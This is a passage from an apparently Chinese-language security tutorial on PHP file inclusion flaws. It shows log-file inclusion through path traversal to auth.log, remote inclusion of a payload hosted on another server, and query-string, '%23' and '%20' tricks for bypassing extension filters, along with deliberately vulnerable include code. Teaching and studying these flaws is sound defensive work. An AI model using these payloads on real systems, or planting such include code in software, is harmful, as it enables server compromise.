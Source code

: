 ### 使用文件包含日志文件

测试输入语句：`http://192.168.1.1/xxx/file.php?file=../../../var/log/auth.log`
之后再向网页传入POST参数：`123=phpinfo`
就可以出现phpinfo的内容了

## 远程文件包含

### 无限制远程文件包含

无限制远程文件包含是指包含文件的位置并不在本地服务器，而是通过URL的形式包含到其他服务器上的文件，以及执行文件中的恶意代码
漏洞利用的条件是：

```ini
allow_url_fopen=on
allow_url_include=on
```

无限远程执行文件的代码如下：

```php
<?php
	$file=$_GET['file'];
	include $file;
?>
```

设定一个文件：php.txt 的内容为`<?php phpinfo();?>`
在正常情况下访问远程服务器URL，`http://192.168.2.1/php.txt`
包含在php.txt中的phpinfo函数不会当做PHP代码执行，但是通过远程文件包含漏洞，包含在php.txt的phpinfo函数会被当做PHP代码执行
`http://www.abc.com/file.php?file=http://192.168.2.1/php.txt`

### 有限制的远程文件包含

有限制的远程文件包含是代码中存在特定的前缀和后缀.php /.html 等拓展名过滤的时候，攻击者需要绕过前缀或者拓展名过滤，才能远程执行URL代码
示例代码如下

```php
	include($_GET['filename'].".html");
```

通常有限制的远程文件包含可以通过问号、井号、空格绕过

#### 通过问号绕过

可以在问号后面添加html字符串，问号后面的拓展名会被当做查询，从而绕过过滤
`http://www.abc.com/file.php?filename=http://192.168.2.1/php.txt?`

#### 通过井号绕过

可以在#后面添加HTML字符串，#会截断后面的拓展名，从而绕过拓展名过滤.#的URL编码为%23
`http://www.abc.com/file.php?filename=http://192.168.2.1/php.txt%23`

#### 通过空格绕过

```
http://www.abc.com/file.php?filename=http://192.168.2.1/php.txt%20
```
